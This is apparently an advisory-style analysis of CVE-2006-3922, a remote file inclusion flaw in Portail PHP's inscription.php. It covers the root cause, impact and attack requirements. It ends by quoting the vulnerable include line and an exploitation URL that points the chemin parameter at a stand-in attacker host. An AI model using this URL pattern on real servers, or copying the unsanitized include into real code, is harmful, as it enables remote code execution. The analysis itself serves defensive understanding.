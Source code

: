 Based on the provided information, here's an analysis of CVE-2006-3922:

**Root Cause of Vulnerability:**
The vulnerability stems from a remote file inclusion flaw in Portail PHP v1.7. The `chemin` parameter in the `inscription.php` script is not properly sanitized, allowing an attacker to include a remote file.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):**  The core issue is that the `include` function in `inscription.php` uses an unsanitized user-supplied parameter (`chemin`) to specify the path to be included which leads to RFI.
- **Lack of Input Validation:** The application fails to validate or sanitize the `chemin` parameter, allowing for arbitrary remote file inclusion.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious remote file, an attacker can execute arbitrary code on the server.
- **Compromised Server:** Successful exploitation can lead to complete compromise of the affected server.
- **Data Theft:** An attacker could potentially access and steal sensitive data from the server.
- **Website Defacement:** The attacker could deface the website.
- **Malware Injection:** The attacker could inject malware into the site, infecting visitors.

**Attack Vectors:**
- **HTTP GET Request:** The attack is performed by crafting a malicious URL with the `chemin` parameter pointing to a remote, attacker-controlled script.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
- **Remote Server:** The attacker needs a server where they host a malicious script that can be included.
- **Knowledge of Vulnerable Parameter:** The attacker must know that the `chemin` parameter in `inscription.php` is vulnerable.

**Technical Details:**
- Vulnerable code snippet:  `include ("$chemin/include/config.php")`
- Exploitation URL:  `http://www.site.com/[path]/mod_membre/inscription.php?chemin=http://evil_scripts?`
